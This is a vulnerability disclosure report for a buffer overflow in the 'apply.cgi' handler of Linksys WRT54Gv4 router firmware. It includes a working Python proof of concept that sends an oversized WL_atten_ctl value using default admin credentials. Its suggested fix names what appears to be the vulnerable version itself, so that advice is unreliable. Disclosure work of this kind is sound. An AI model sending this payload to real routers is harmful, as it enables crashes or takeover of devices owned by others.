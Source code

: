 # CVE Report - Buffer Overflow Vulnerability in FW_WRT54Gv4_4.21.5.000_20120220 Routers 

## Vulnerability Title

Buffer Overflow Vulnerability in FW_WRT54Gv4_4.21.5.000_20120220 Router. 

## Vulnerability Description

Linksys FW_WRT54Gv4 devices have a Buffer Overflow vulnerability in the CGl interface "apply.cgi",which allows remote attackers to execute arbitrary commands via parameter **WL_atten_ctl**  and **WL_atten_radio** passed to the "apply.cgi" binary through a POST request.



## POC

```python
import requests

url = "http://{ip}/apply.cgi"

headers = {
    "Host": ip,
    "Content-Length": "146",
    "Cache-Control": "max-age=0",
    "Authorization": "Basic YWRtaW46YWRtaW4=",
    "Accept-Language": "zh-CN",
    "Upgrade-Insecure-Requests": "1",
    "Origin": "http://172.17.0.4",
    "Content-Type": "application/x-www-form-urlencoded",
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.57 Safari/537.36",
    "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7",
    "Accept-Encoding": "gzip, deflate, br",
    "Connection": "keep-alive"
}

data = {
    "WL_atten_bb": "1",
    "WL_atten_radio": "1",
    "WL_atten_ctl": "a"*90,
    "WL_delay":"1"
}

response = requests.post(url, headers=headers, data=data)

print("Status Code:", response.status_code)
print("Response Content:", response.text)

```



## Cause Analysis

The get_cgi function accepts external data. The user affects v5 by setting the WL_atten_ctl value. It enters system execution, resulting in a buffer overflow vulnerability.

![image-20250226211642419](https://github.com/user-attachments/assets/c0b72818-f526-4328-935c-9cd6f3135f37)


## Suggested Fix

It is recommended to update to the version FW_WRT54Gv4_4.21.5 of router to fix this vulnerability. 

